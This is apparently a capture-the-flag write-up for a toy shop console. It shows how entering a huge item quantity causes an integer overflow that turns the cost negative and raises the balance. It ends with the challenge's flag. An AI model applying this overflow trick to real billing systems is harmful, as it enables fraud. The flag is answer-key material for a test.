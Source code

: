 # Proof of Concept

## TL;DR

- Negative numbers are banned from input

- Use integer overflow to increase balance

```
Tuff Menu Console
Balance of customer: 1337
Choose what the customer is buying:
1. Six Seven ($67)
2. Did Unc Snap ($41)
3. Flag ($100K)
0. nothing
> 1
Enter quantity: 34000000
Total cost for 34000000 items: $-2016967296
Purchase successful! Remaining balance: $2016968633

Tuff Menu Console
Balance of customer: 2016968633
Choose what the customer is buying:
1. Six Seven ($67)
2. Did Unc Snap ($41)
3. Flag ($100K)
0. nothing
> 3
Enter quantity: 1
Total cost for 1 items: $100000
Purchase successful! Remaining balance: $2016868633
Send this to the customer: HCS{u_r_s0_tufff_pl3453_h4ck_m333_4g41nn_<3}
```

### Flag: 
> HCS{u_r_s0_tufff_pl3453_h4ck_m333_4g41nn_<3}